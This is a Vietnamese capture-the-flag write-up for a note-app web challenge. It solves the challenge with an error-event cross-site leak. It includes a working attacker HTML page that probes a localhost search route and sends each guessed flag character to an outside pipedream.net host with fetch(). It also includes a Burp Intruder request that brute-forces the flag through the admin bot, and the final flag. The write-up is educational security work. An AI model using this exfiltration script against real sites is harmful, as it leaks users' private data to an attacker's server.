 ## Leak me if you can

Bài whitebox: Challenge là 1 trang có chức năng tạo note, đọc note và tìm kiếm note. Có 2 loại note là `is_admin` `1` hoặc `0`, flag nằm ở note `is_admin`.
Ngoài ra có chức năng report báo cáo 1 url cho admin và 1 con bot sẽ tự động đến xem.

```js
    async init() {
        return this.db.exec(`
            PRAGMA case_sensitive_like=ON; 

            DROP TABLE IF EXISTS notes;

            CREATE TABLE IF NOT EXISTS notes (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                note        VARCHAR(255) NOT NULL,
                author       VARCHAR(255) NOT NULL,
                is_admin    BOOLEAN NOT NULL
            );

            INSERT INTO notes (id, note, author, is_admin) VALUES (0, "REDACTED", "nhienit", 1);
        `);
    }
```

Để là admin thì cần truy cập từ localhost

Review source code thì các chức năng đều an toàn, chú ý tới:
```js
// ........
const isAdmin = req => ((req.ip == '127.0.0.1') ? 1 : 0);
// ...........

router.get('/notes/search', (req, res) => {
	if(req.query.note) {
		const query = `${req.query.note}%`;
		return db.findNote(query, isAdmin(req))
			.then(notes => {
				if(notes.length == 0) return res.status(404).send(response('No  results!'));
				res.json(notes);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing "note" parameters!'));
});

// .............
```
![Screenshot (914)](https://user-images.githubusercontent.com/71699412/173526274-b65310f8-f85c-4396-b937-d5f2c6396c84.png)

![Screenshot (913)](https://user-images.githubusercontent.com/71699412/173526283-936a39b7-0a1f-456e-af73-0626c318449e.png)

Nếu tìm thấy note status code sẽ là `200` trong khi nếu không thì `404`. Ok đây là 1 bài XSLeak(error-based cross-site leaks), ta có thể dùng script để load thử route `/notes/search` tìm kiếm note, nếu đúng thì onload được, 404 sẽ là error: https://xsleaks.dev/docs/attacks/error-events/

`index.html`:
```html
<head>
  
</head>

<script>
function probeError(url, flag) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
    fetch('https://eog308gfphj31fc.m.pipedream.net?flag='+flag)
  };
  script.onerror = () => console.log('Error event triggered');
  document.head.appendChild(script);
}

const urlParams = new URLSearchParams(window.location.search);
flag = urlParams.get('flag');

url = 'http://localhost:13337/notes/search?note='+flag;
probeError(url, flag);
</script>
```

Brute force thủ công bằng *Burpsuite Intruder* khi submit url đến `/report` cho con bot nhìn:
```
POST /report HTTP/1.1
Host: localhost:13337
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://451d-8-21-11-111.ap.ngrok.io/?flag=KCSC{W0W_H4§target§
```

Flag chỉ có con bot nằm ở localhost mới thấy được. Bằng cách submit url trỏ đến trang `index.html` mình tự host, nếu onload không lỗi thì `fetch` đến pipe dream cùng kí tự vừa tìm thấy được, lặp đi lặp lại cho đến khi tìm được flag.

![Screenshot (915)](https://user-images.githubusercontent.com/71699412/173527159-7bce2744-bb9e-4e62-b33b-8f94eeba9b6f.png)

Có cách automate bằng python nhanh hơn nhưng công code thì mệt hơn

**flag**: `KCSC{W0W_H4v3_U_h3ard_4b0ut_XS_L34k?}`
